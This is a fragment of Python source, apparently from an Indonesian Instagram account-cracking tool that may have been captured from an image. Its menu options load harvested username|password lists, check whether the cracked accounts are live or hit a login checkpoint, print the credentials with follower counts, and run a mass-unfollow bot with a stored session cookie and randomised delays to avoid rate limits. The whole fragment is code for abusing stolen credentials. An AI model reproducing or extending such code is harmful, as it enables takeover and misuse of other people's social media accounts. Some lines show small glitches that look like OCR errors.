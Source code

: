 
		elif c in ('4','04'):
			print('')
			for i in os.listdir('result'):
				print(f' [{U}>{C}] {i}')
			c=input(f'\n {CY}┣>>> Masukan nama file: {C}')
			g=open("result/%s"%(c)).read().splitlines()
			print(f'\n{CY}┣[+] Total Result MASTER_FU{H}{len(g)}{C}')
			print(f'\n{CY}┣[!] Proses mengecek status akun. silahkan tunggu sebentar{C}\n')
			for s in g:
				usr=s.split("|")[0]
				pwd=s.split("|")[1]
				self.checkAPI(usr,pwd)
			exit(f'\n\n{K}┣[#] proses check selesai...{C}')

		elif c in ('5','05'):
			print('')
			for i in os.listdir('result'):
				print(f' [{U}>{C}] {i}')
			c=input(f'\n {U}┣>>> Masukan nama file: {C}')
			g=open("result/%s"%(c)).read().splitlines()
			xx=c.split("-")
			xc=xx[0]
			print(f'\n{k}┣[>] Total result yang di temukan [{H}{len(g)}{C}]')
			for s in g:
				usr=s.split("|")[0]
				pwd=s.split("|")[1]
				fol=s.split("|")[2]
				ful=s.split("|")[3]
				if xc=="checkpoint":
					print(f"""
 [{M}+{C}] {M}CHECKPOINT LOGIN{C}:
  {M}|{C}
  {M}├╴>{C} Username: {O}{usr}{C}
  {M}├╴>{C} Password: {O}{pwd}{C}
  {M}├╴>{C} Followers: {O}{fol}{C}
  {M}├╴>{C} Following: {O}{ful}{C}
					""");sleep(0.05)
				else:
					print(f"""
  {H}[>]{C}{H} STATUS : MASTER_FU LIVE {C}
  {H}[>]{C}{H} Username : {H}{usr}{C}
  {H}[>]{C}{H} Password : {H}{pwd}{C}
  {H}[>]{C}{H} Pengikut : {H}{fol}{C}
  {H}[>]{C}{H} Mengikuti : {H}{ful}{C}
					""");sleep(0.05)
		elif c in ('6','06'):
			global following
			six=0
			print(f'\n [{U}!{C}] Bot Unfollow-All Dijalankan\n')
			x=open('.kukis.log','r').read()
			x_id=re.findall('sessionid=(\d+)',x)[0]
			back=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/following/?count=100000',x_id)
			for i in following:
				six+=1
				sleep(float( random.uniform(nyMnD*10,nyMxD*10) / 10 ))
				six_id=self.sixAPI(i)
				print(f' {str(six)}{U}}}{C} {i} {H}Unfollow-Berhasil{C}')
				self.unfollowAPI(six_id,'5452333948',self.cookie)
				#print(w)
			input(f'\n\n [{U}#{C}] Unfollow-all selesai...');self.menu()
